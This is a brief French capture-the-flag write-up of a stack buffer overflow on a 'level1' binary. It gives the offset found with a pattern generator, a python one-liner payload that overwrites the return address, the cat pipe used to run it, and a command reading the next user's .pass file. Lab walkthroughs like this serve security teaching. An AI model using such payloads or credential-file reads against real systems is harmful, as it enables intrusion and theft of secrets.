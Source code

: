 Comment trouver le flag1

On a encore un programme quand on le disassemble on voit que y'a une fonction gets et que le programme s'arrete

info function

On voit que le main a une function gets appelée on peut ecrire dans ce buffer (potentiel overflow)

on voit que la function RUN n'est pas execute dans le main

donc on va essayer d'overflow le gets grace a un buffer overflow generator https://wiremask.eu/tools/buffer-overflow-pattern-generator/
l'overflow a lieu a partir de 76

on va donc faire une commande python

python -c "print 76 * 'a' + '\x08\x04\x84\x44'[::-1]" > /tmp/overflow

on va ouvrir un STDIN avec un cat et faire executer notre overflow 

cat /tmp/overflow - | ./level1

L'overflow a marcher puisque grace a whoami on voit qu'on est le level2

cat /home/user/level2/.pass on a notre flag